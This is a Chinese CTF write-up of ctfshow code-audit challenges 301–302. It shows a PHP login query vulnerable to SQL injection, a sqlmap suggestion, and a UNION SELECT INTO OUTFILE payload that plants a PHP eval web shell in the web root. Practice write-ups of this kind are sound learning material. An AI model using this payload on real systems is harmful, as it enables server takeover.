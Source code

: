 ```yaml
---
title: ctfshow-代码审计
id: ctfshow-代码审计
---
```




整个国庆都在刷终极考核，第一台机子拿了shell但是没能提权，看了4天linux提权
和群主交流的时候他说挺简单，应该是我信息收集没到位；

虽然前面的提权都没成，但也学到很多东西

明天晚上就回学校了，今天就抽点时间做一下代码审计这一块放松放松~


<iframe frameborder="no" border="0" marginwidth="0" marginheight="0" width=330 height=86 src="//music.163.com/outchain/player?type=2&id=1456890009&auto=0&height=66"></iframe>


```html
# 上面播放器的代码如下（仅网易云外链链接，其他播放器请自行百度）
<iframe frameborder="no" border="0" marginwidth="0" marginheight="0" width=330 height=86 src="//music.163.com/outchain/player?type=2&id=1456890009&auto=0&height=66"></iframe>
# width(宽度) ; height(高度)
# type = 歌曲(1) | 歌单(2) | 电台(3)
# id = 歌曲ID号
# auto = 自动播放(1) | 手动播放(0)
```

## 301 sql注入

本来打算用seay审一下，但是啥也没有，大概是没有危险函数？
手动审一下

checklogin.php，sql语句没有过滤

```php
$sql="select sds_password from sds_user where sds_username='".$username."' order by id limit 1;";
```

没回显就不注了，可以sqlmap一把梭，账户密码：`admin/ctfshowwwww`

![](https://i.loli.net/2021/10/06/9SvGmP1j4J7s8CB.png)

或者尝试写马

```sql
userid=' union select "<?php eval($_GET[1]);" into outfile "/var/www/html/a.php" --+
```

## 302 sql注入

> hint:
>
> 修改的地方：
>
> ```php
> if(!strcasecmp(sds_decode($userpwd),$row['sds_password'])){
> ```
